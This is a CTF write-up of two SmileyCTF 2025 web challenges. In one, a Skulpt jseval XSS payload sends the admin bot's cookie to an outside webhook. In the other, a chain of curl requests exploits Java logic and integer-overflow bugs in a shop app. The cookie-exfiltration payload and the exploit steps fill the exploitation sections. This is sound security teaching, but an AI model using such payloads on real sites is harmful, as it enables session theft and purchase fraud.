









+++
title = 'SmileyCTF 2025 - Sculpture Revenge, dry-ice-n-co'
date = 2025-06-14T12:52:05+05:30
draft = false
tags = ["web","java","xss"]
+++

**tl;dr**

+ Writeup for "Sculpture Revenge" and "dry-ice-n-co" from SmileyCTF 2025.
+ Sculpture Revenge - Use `jseval` in skulpt to execute javascript code and get XSS.
+ dry-ice-n-co - Exploit logic bugs to increase balance amount and buy flag product.

<!--more-->

# Introduction

This is a writeup for two of the challenges that I worked on during [Smiley CTF 2025](https://play.ctf.gg/) - Sculpture Revenge and dry-ice-n-co. 

## Sculpture Revenge
**Challenge points**: 50
**No. of solves**: 130

### Challenge Description
client side python is cool. adapted from actf 2025 to require the harder solve.

### Analysis
When visiting the challenge link, all we can see is a textarea to enter code and a "Run" button.

Looking at the source code given, we can see an app.py which serves index.html and also has an admin bot endpoint which stores the flag in a cookie called `flag`.
```py
from urllib.parse import urlparse, parse_qs, urlencode, urlunparse
from flask import Flask, request, make_response, redirect
import base64, sys

from selenium import webdriver
from selenium.webdriver.chrome.options import Options

flag = open('flag.txt').read().strip()
app = Flask(__name__)

PORT = 8802


@app.route('/')
def index():
    return make_response(open('index.html').read())

@app.route('/bot', methods=['GET'])
def bot():
    data = request.args.get('code', '🍃').encode('utf-8')
    data = base64.b64decode(data).decode('utf-8')
    parsed = urlparse(f"{request.host_url}")
    query_params = parse_qs(parsed.query)
    query_params["code"] = base64.b64encode(data.encode('utf-8')).decode('utf-8')
    new_query = urlencode(query_params, doseq=True)
    new_url = urlunparse(parsed._replace(query=new_query))
    options = Options()
    options.add_argument("--headless")
    options.add_argument("--no-sandbox")
    driver = webdriver.Chrome(options=options)
    driver.get(f'{request.host_url}void')
    driver.add_cookie({
        'name': 'flag',
        'value': flag.replace(".;,;.{", "").replace("}", ""),
        'path': '/',
    })
    print('[+] Visiting ' + new_url, file=sys.stderr)
    driver.get(new_url)
    driver.implicitly_wait(5)
    driver.quit()
    print('[-] Done visiting URL', new_url, file=sys.stderr)
    return make_response('Bot executed successfully', 200)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=PORT, debug=False)
```
Our end goal is to get XSS and exfiltrate the document.cookie.

index.html is given below:
```html

<html> 
<head> 
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.9.0/jquery.min.js" type="text/javascript"></script> 
<script src="https://skulpt.org/js/skulpt.min.js" type="text/javascript"></script> 
<script src="https://skulpt.org/js/skulpt-stdlib.js" type="text/javascript"></script> 

</head> 

<body> 

<script type="text/javascript"> 
// output functions are configurable.  This one just appends some text
// to a pre element.
function outf(text) { 
    var mypre = document.getElementById("output"); 
    mypre.innerText = mypre.innerText + text; 
} 
function builtinRead(x) {
    if (Sk.builtinFiles === undefined || Sk.builtinFiles["files"][x] === undefined)
            throw "File not found: '" + x + "'";
    return Sk.builtinFiles["files"][x];
}

// Here's everything you need to run a python program in skulpt
// grab the code from your textarea
// get a reference to your pre element for output
// configure the output function
// call Sk.importMainWithBody()
function runit() { 
   var prog = document.getElementById("yourcode").value; 
   var mypre = document.getElementById("output"); 
   mypre.innerHTML = ''; 
   Sk.pre = "output";
   Sk.configure({output:outf, read:builtinRead}); 
   (Sk.TurtleGraphics || (Sk.TurtleGraphics = {})).target = 'mycanvas';
   var myPromise = Sk.misceval.asyncToPromise(function() {
       return Sk.importMainWithBody("<stdin>", false, prog, true);
   });
   myPromise.then(function(mod) {
       console.log('success');
   },
       function(err) {
       console.log(err.toString());
   });
}

document.addEventListener("DOMContentLoaded",function(ev){
    document.getElementById("yourcode").value = atob((new URLSearchParams(location.search)).get("code"));
    runit();
});

</script> 

<h3>Try This</h3> 
<form> 
<textarea id="yourcode" cols="40" rows="10">import turtle

t = turtle.Turtle()
t.forward(100)

print "Hello World" 
</textarea><br /> 
<button type="button" onclick="runit()">Run</button> 
</form> 
<pre id="output" ></pre> 
<!-- If you want turtle graphics include a canvas -->
<div id="mycanvas"></div> 

</body> 

</html> 
```
Here, [Skulpt](https://skulpt.org/) is being used to run Python client side. We can try using just `print("<xss payload here>")` but since the output is set as innerText, that does not work. That was one of the solutions for the original sculpture challenge which was mentioned in the description - [https://infoseciitr.in/ctf-writeups/amateur-ctf/sculpture-writeup/](https://infoseciitr.in/ctf-writeups/amateur-ctf/sculpture-writeup/).

If we check out a few other solutions to the same challenge, we can find one that uses an alternative approach - [https://gerlachsnezka.github.io/writeups/amateursctf/2024/web/sculpture/](https://gerlachsnezka.github.io/writeups/amateursctf/2024/web/sculpture/). This uses `jseval` function to [execute javascript code](https://github.com/skulpt/skulpt/issues/745).

### Exploitation
Making a few changes to the payload from the writeup, to get cookie and send to our webhook, we can create the following payload and then base64 encode it and send it to the /bot endpoint.
```py
flag = jseval("Sk.global.document.cookie")
jseval("Sk.global.window.open('<webhook_url>/plswork/?flag="+flag+"',{'mode':'no-cors'})")
```


The bot visits the url and base64 decodes the code to put it into `yourcode.value`, calls the `runit()` function, which executes javascript and exfiltrates the cookie to our webhook url.


### Final Exploit
```html
https://web-sculpture-revenge-7hahb9cq.smiley.cat/bot?code=ZmxhZyA9IGpzZXZhbCgiU2suZ2xvYmFsLmRvY3VtZW50LmNvb2tpZSIpCmpzZXZhbCgiU2suZ2xvYmFsLndpbmRvdy5vcGVuKCdodHRwOi8vd2ViaG9vay5zaXRlLzJlYjMxOWQxLWY2YTYtNDkzYS1hZTM1LWQyZmMyYmJlY2RkMC9wbHN3b3JrLz9mbGFnPSIrZmxhZysiJyx7J21vZGUnOiduby1jb3JzJ30pIik=
```
^final payload



> Flag = we_love_cattle_no_flags_in_dist_trust_we_know_what_we_are_doing_yep


## dry-ice-n-co
**Challenge points**: 138
**No. of solves**: 61

### Challenge Description
Hi. I'm opening up my shop for you to buy my favorite thing in the world. DRY ICE!!!

Use coupon code SMILEICE at checkout for 20% off! That's coupon code SMILEICE at checkout for 20% off!

### Analysis
This challenge consists of a java application using spring boot to run a web server with an e-commerce website. Before building the Docker image we can add the following line to the Dockerfile to enable remote debugging of the application.
```
ENV JAVA_TOOL_OPTIONS -agentlib:jdwp=transport=dt_socket,address=*:9000,server=y,suspend=n
```

The main application code resides in `ShopController.java`. In it, a few request mappings are defined as described below:
+ `class ShopController` - First initializes flagFile and `availableProducts` ArrayList
+ `/` - Initializes user `User` and cart `Cart`
+ `/add` - Adds item to cart if product is available and has stock
+ `/remove/{index}` - Removes product at `index` from cart
+ `/purchase` - If items in cart pass the `canAfford` check, run `cart.purchase()`
+ `/admin/add-product` - Add a new product to `availableProducts`
+ `/apply-coupon` - Set a coupon code to the cart
+ `/remove-coupon` - Set the coupon code of cart to null

There are also models defined for `User`, `CartItem`, `DryIceProduct` and `ShoppingCart`.

```html
<div th:if="${cart.boughtFlag}" class="alert alert-success mb-4">
    <h4>Congratulations! You've unlocked the flag:</h4>
    <pre th:text="${flag}">Flag will appear here</pre>
</div>
```
From shop.html, we can see that we will get the flag if `cart.boughtFlag` is set to true.

```java
public void purchase() {
    if (canAfford()) {
        balance -= getTotal();
        boolean hasFlag = items.size() == 1 && items.get(0).getName().equals("flag") && items.get(0).getQuantity() > 0;
        if (hasFlag) {
            boughtFlag = true;
        }
        
        items.clear();
        couponCode = null;
    }
}
```
`cart.boughtFlag` is set to `true` only if these conditions are met. Let's take a closer look at how we can get here.

---

We start off as the guest user (user.admin = false) with balance of $100. The price of `flag` product is `1000000` and we can add it to cart but are not allowed to purchase it since the `canAfford()` check will fail.
```java
public boolean canAfford() {
        return balance >= getTotal();
    }
```
We will come back to the `getTotal()` function later.

Since there is an `add-product` endpoint we can try to add a new product called flag.
```java
@PostMapping("/admin/add-product")
    public String addProduct(@RequestParam String name,
                           @RequestParam int price,
                           @RequestParam String description,
                           HttpSession session) {
        User user = (User) session.getAttribute("user");
        if ((user.admin = true) && user != null && name != "flag") {
            availableProducts.add(new DryIceProduct(name, price, description));
        }
        return "redirect:/";
    }
```
Looking at the code, one may assume that is not possible but both the checks being done are insecure and are easily bypassed. First, instead of `user.admin == true`, `user.admin = true` is being done here, which instead of checking if true, assigns true to user.admin. Next, `name!="flag"` is being done instead of `!name.isequals("flag")` which basically compares whether the name object is same instead of comparing the value of name like it should be done. Below I've just shown an example using the debugger with `name` set to "test" and we can see that the `!=` check returns true.


So this means, we can add a new product but even if we add `flag` product with price set to say `1$`, we are not able to buy that as the add to cart function takes the first instance of that product, which is the one with very high price and not the one we created.
```java
@PostMapping("/add")
    public String addToCart(@RequestParam String productName, 
                    @RequestParam int quantity, 
                    HttpSession session) {
ShoppingCart cart = (ShoppingCart) session.getAttribute("cart");
DryIceProduct product = availableProducts.stream()
    .filter(p -> p.getName().equals(productName))
    .findFirst()
    .orElse(null);
```
Since that did not work, we can pivot to another idea - we are able to add new product with any price so what if we set it a negative price, will our balance increase?(balance -= -somenumber; becomes balance = balance + somenumber). Lets go back to the `getTotal()` function to see how that works.
```java
public int getTotal() {
    int total = items.stream()
            .mapToInt(CartItem::getTotal)
            .sum();
    total = Math.abs(total);
    
    if (isCouponValid()) {
        total = (int)(total * (100.0 - (double)DISCOUNT_PERCENTAGE) / 100.0);
    }
    
    return total;
}
```
It takes the sum of items in cart and then runs `Math.abs` on the total so that means negative total will never happen. or will it?

### Exploitation
According to [this](https://stackoverflow.com/questions/5444611/math-abs-returns-wrong-value-for-integer-min-value), `Math.abs(Integer.MIN_VALUE)` will return the same value itself, as confirmed by documentation [here](https://docs.oracle.com/javase/6/docs/api/java/lang/Math.html#abs%28int%29). 

Integer.MIN_VALUE is `-2147483648` but we cannot directly create a product with that value as it will error out so we have to create a product with `-2147483647` and then another product with `-1` so that sum() of items in cart will reach the MIN_VALUE.

Now if we purchase, our balance becomes Integer.MIN_VALUE

We should have got
```java
//balance = 100
balance -= getTotal() // getTotal = -2147483648
// balance = 100 - (-2147483648)
// balance = 100 + 2147483648
```
But this is not the case since negation does not work on MIN_VALUE and it ends up as `100 + -2147483648` which is why we got `-2147483548`.

This is where the couponCode comes in clutch. If we provide a valid coupon code, `SMILEICE` a `DISCOUNT_PERCENTAGE` of 20 is applied after Math.abs(total) is ran.
```java
public int getTotal() {
    int total = items.stream()
            .mapToInt(CartItem::getTotal)
            .sum();
    total = Math.abs(total); // -2147483648
    
    if (isCouponValid()) {
        total = (int)(total * (100.0 - (double)DISCOUNT_PERCENTAGE) / 100.0); // -1717986918
    }
    
    return total; // // -1717986918
}
...
balance -= getTotal() // 1717987018
...
```


This gives us enough balance to buy the flag product.

### Final Exploit

```bash
# Add item with MIN_VALUE + 1 price
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost:8000' -H $'Content-Length: 57' -H $'Content-Type: application/x-www-form-urlencoded' \
    -b $'JSESSIONID=E72D03476256298D73AB0483738514C7' \
    --data-binary $'name=verylowprice&price=-2147483647&description=asdfswork' \
    $'http://localhost:8000/admin/add-product'

# Add item with price -1
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost:8000' -H $'Content-Length: 43' -H $'Content-Type: application/x-www-form-urlencoded' \
    -b $'JSESSIONID=E72D03476256298D73AB0483738514C7' \
    --data-binary $'name=1dollar&price=-1&description=asdfswork' \
    $'http://localhost:8000/admin/add-product'

# add both items to cart
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost:8000' -H $'Content-Length: 35' -H $'Content-Type: application/x-www-form-urlencoded' \
    -b $'JSESSIONID=E72D03476256298D73AB0483738514C7' \
    --data-binary $'productName=verylowprice&quantity=1' \
    $'http://localhost:8000/add'

curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost:8000' -H $'Content-Length: 30' -H $'Content-Type: application/x-www-form-urlencoded' \
    -b $'JSESSIONID=E72D03476256298D73AB0483738514C7' \
    --data-binary $'productName=1dollar&quantity=1' \
    $'http://localhost:8000/add'

# purchase items in cart to get balance = $1717987018
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost:8000' -H $'Content-Length: 0' -H $'Content-Type: application/x-www-form-urlencoded' \
    -b $'JSESSIONID=E72D03476256298D73AB0483738514C7' \
    $'http://localhost:8000/purchase'

# add flag to cart and purchase
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost:8000' -H $'Content-Length: 27' -H $'Content-Type: application/x-www-form-urlencoded' \
    -b $'JSESSIONID=E72D03476256298D73AB0483738514C7' \
    --data-binary $'productName=flag&quantity=1' \
    $'http://localhost:8000/add'

curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost:8000' -H $'Content-Length: 0' -H $'Content-Type: application/x-www-form-urlencoded' \
    -b $'JSESSIONID=E72D03476256298D73AB0483738514C7' \
    $'http://localhost:8000/purchase'

# go to /endpoint to get the flag
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: localhost:8000' \
    -b $'JSESSIONID=E72D03476256298D73AB0483738514C7' \
    $'http://localhost:8000/'
```


> Flag = .;,;.{this_is_not_a_political_statement_btw}